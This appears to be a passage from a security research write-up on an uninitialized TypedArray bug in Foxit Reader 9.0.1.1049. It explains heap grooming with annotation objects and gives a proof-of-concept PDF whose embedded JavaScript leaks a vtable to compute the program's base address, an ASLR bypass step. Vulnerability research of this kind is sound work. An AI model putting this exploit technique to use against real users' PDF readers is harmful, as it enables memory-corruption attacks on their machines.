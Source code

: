<p class="cn" markdown="1">After trying different TypedArray's we can see that Int32Array and Float32Array are allocated from exactly the same positions, that is in **FoxitReader!CertFreeCertificateChain+0x013a2a32**. It's always good to confirm exactly what was patched!</p>

#### Exploitation

<p class="cn" markdown="1">An uninitialized TypedArray is a very powerful primitive, because we can specify the size of the buffer, thus, we can clobber almost any other buffer that we can allocate and free. For those that are unaware, typical exploitation of an uninitialized buffer can usually be achieved by allocating an object of _n_ size and then freeing that buffer before triggering the uninitialized buffer allocation. Where _n_ is the size of the uninitialized buffer (in our case, basically any size).</p>

<p class="cn" markdown="1">After some analysis, I found the perfect candidate and as it turns out, you can allocate an annotation object of size 0x5c, which, when freed is rounded to 0x60.</p>

```JavaScript
// allocates the annotation
var a = this.addAnnot({type: "Text"});

// free's the annotation
a.destroy();
```

<p class="cn" markdown="1">Now, we can combine this to leak the vtable of the text annotation.</p>

```JavaScript
%PDF 
1 0 obj
<</Pages 1 0 R /OpenAction 2 0 R>> 
2 0 obj
<</S /JavaScript /JS (

// allocates the annotation
var a = this.addAnnot({type: "Text"});

// free's the annotation
a.destroy();

// allocate the freed chunk
var test = new ArrayBuffer(0x60);
var int32View = new Int32Array(test);

// mask off the lower word
var leaked = int32View[0] & 0xffff0000;

// calculate an offset for version FoxitReader 9.0.1.1049
var foxit_base = leaked - 0x01f50000;
app.alert(util.printf("FoxitReader base address: 0x%08x", foxit_base));

)>> trailer <</Root 1 0 R>>
```

<p class="cn" markdown="1">After turning off page heap and firing the poc, we can see that we are leaking the base address of FoxitReader.exe:</p>


[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo